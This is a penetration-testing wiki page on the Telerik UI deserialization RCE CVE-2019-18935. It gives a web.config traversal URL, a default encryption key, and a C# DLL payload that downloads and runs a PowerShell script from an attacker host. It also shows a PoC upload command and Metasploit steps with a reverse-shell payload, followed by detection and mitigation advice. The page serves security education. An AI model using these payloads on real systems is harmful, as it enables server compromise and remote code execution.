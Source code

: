 # ASP.NET Telerik UI AsyncUploadHandler Deserialization RCE (CVE-2019-18935)

{{#include /banners/hacktricks-training.md}}

## TL;DR

- Affected product: Telerik UI for ASP.NET AJAX 2012–2019 (prior to R1 2020)
- Vulnerable handler: `Telerik.Web.UI.AsyncUploadHandler`
- Issue: Attacker-controlled encrypted blob is **decrypted and deserialized** with `LosFormatter`, allowing
  arbitrary file write and remote code execution **without authentication**.
- Encryption / validation keys can be obtained through older Telerik traversal bugs (CVE-2017-11317 / 11357)
  or default/weak configuration.
- Widely weaponised – Metasploit module `exploit/windows/http/telerik_async_upload` & multiple PoCs.

---

## How the vulnerability works

1. The **RadAsyncUpload** component sends files to `/Telerik.Web.UI.AsyncUploadHandler.ashx?type=rau`.
2. The request body contains a `rauPostData` parameter (Base64, AES-encrypted, MAC’ed) that embeds
   upload metadata **and the file content**.
3. When the handler receives the request it:
   * Decrypts the blob using the **`EncryptionKey`** and verifies the HMAC with **`HashKey`** taken from
     `web.config` (section `Telerik.AsyncUpload.Configuration`).
   * **Deserialises** the resulting `Dictionary<string,object>` with the vulnerable **`LosFormatter`**.
4. If the attacker knows valid keys they can craft a malicious object graph that contains a gadget which
   executes upon deserialization (for example `ObjectDataProvider`).
5. Prior to deserialization, the handler stores the uploaded file on disk:
   `%TEMP%\TelerikWebUI\<GUID>.<ATTACKER_EXTENSION>` – the extension can be chosen by the attacker.
6. By uploading a DLL/ASPX file to a location that will later be loaded by IIS or by any process
   (e.g. `vcruntime140.dll`) the attacker obtains **arbitrary code execution** on the server.

> The encryption keys are the *only* protection.  If they are predictable, hard-coded or leaked, exploitation is trivial.

---

## Obtaining the encryption keys

* **Default keys** – versions prior to 2013 use the static key `6A6F103C2E8E4098A5B47C2C79B3A2F6`.
* **CVE-2017-11317 / CVE-2017-11357** – Directory traversal in `DialogHandler.aspx` allows unauthenticated
  download of `web.config` from the server:
  ```http
  /Telerik.Web.UI.DialogHandler.aspx?dialogName=DocumentManager&txtUrl=../../../../web.config
  ```
* **Verbose error & backup files** – `web_-(timestamp).config`, `.bak`, Git history…
* **Source disclosure** via mis-configuration (e.g. `~/_App_Temp/`) may leak the keys.

---

## Manual exploitation example

1. **Generate malicious DLL** that executes PowerShell when loaded:
   ```csharp
   // payload.cs
   using System;
   public class Class1
   {
       public Class1()
       {
           System.Diagnostics.Process.Start("powershell",
               "(New-Object Net.WebClient).DownloadString('http://attacker/pwn.ps1') | iex");
       }
   }
   ```
   ```bash
   csc /target:library /out:vcruntime140.dll payload.cs
   ```
2. **Craft encrypted rauPostData** using a public PoC:
   ```bash
   python3 CVE-2019-18935.py -u http://victim/ \
          --enc-key <EncryptionKey> --hash-key <HashKey> \
          --upload vcruntime140.dll --dest vcruntime140.dll
   ```
3. **Send the request** (snippet):
   ```http
   POST /Telerik.Web.UI.AsyncUploadHandler.ashx?type=rau HTTP/1.1
   Host: victim
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

   ------WebKitFormBoundary
   Content-Disposition: form-data; name="rauPostData"

   <BASE64_BLOB>
   ------WebKitFormBoundary--
   ```
4. Uploaded DLL lands in `%TEMP%` and is loaded immediately or at next process start – giving RCE.

---

## Metasploit usage

```
msf> use exploit/windows/http/telerik_async_upload
msf> set RHOSTS victim
msf> set RPORT 80
msf> set TARGETURI /
msf> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf> run
```
Metasploit will automatically attempt to retrieve the keys via the directory traversal bugs before delivering the RCE payload.

---

## Detection ideas

* **IIS Logs** – requests to `Telerik.Web.UI.AsyncUploadHandler.ashx` with query `type=rau|raw|timeout`.
* **Windows Event Log** – `Application` events where **source** = `Telerik.Web.UI` and **Exception** contains
  `System.InvalidCastException`.
* **File system** – creation of `%TEMP%\TelerikWebUI\*.dll|*.aspx`.
* **PowerShell** – suspicious `DownloadFile` followed by `Add-MpPreference -ExclusionPath` (AV bypass observed in wild).

---

## Mitigation

1. **Upgrade** to `Telerik UI for ASP.NET AJAX` **2021.3** (or later) which enforces additional validation.
2. **Regenerate keys** – use random `EncryptionKey` / `HashKey` (128-bit hex) and keep them secret.
3. Restrict the handler (`Telerik.Web.UI.AsyncUpload`) to **authenticated users only**.
4. Disable dangerous file extensions via `TemporaryFileExtension` and validate uploads server-side.
5. Place the upload handler in its own application pool with minimal privileges and enable AppLocker / constrained PowerShell.

---

## References

- [Pentest Partners – Sil3ncer Deployed – RCE, Porn Diversion, and Ransomware on an SFTP-only Server](https://www.pentestpartners.com/security-blog/sil3ncer-deployed-rce-porn-diversion-and-ransomware-on-an-sftp-only-server/)
- [Telerik official advisory](https://www.telerik.com/support/kb/aspnet-ajax/details/cve-2019-18935)
- [Rapid7 Metasploit module documentation](https://docs.rapid7.com/metasploit/telerik-ui-async-upload-rce/)
- [Bishop Fox – Technical write-up](https://bishopfox.com/blog/2020/02/telerik-webui-exploit)

{{#include /banners/hacktricks-training.md}}